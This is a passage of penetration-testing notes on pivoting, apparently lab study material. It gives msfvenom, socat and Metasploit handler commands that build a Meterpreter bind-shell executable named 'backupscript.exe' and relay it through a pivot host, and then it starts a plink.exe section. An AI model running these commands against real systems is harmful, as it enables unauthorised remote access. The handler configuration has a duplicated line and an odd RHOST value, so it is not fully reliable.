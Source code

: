 ![Example Image](/assets/img/notes/system/55.png)

Create the payload:
```console
zero@pio$ msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443
```

We can start a socat bind shell listener:
```console
ubuntu@pivot$ socat TCP4-LISTEN:8080,fork TCP4:<TARGET>:8443
```

Start the listener:
```console
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST <OUR IP>
msf6 exploit(multi/handler) > set LPORT 8080
msf6 exploit(multi/handler) > set LPORT 8080
msf6 exploit(multi/handler) > run
```

---

# Pivoting Around Obstacles 

## SSH for Windows: plink.exe

[Plink](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) is a Windows command-line SSH tool that comes as a part of the PuTTY package when installed. In the below image, we have a Windows-based attack host.
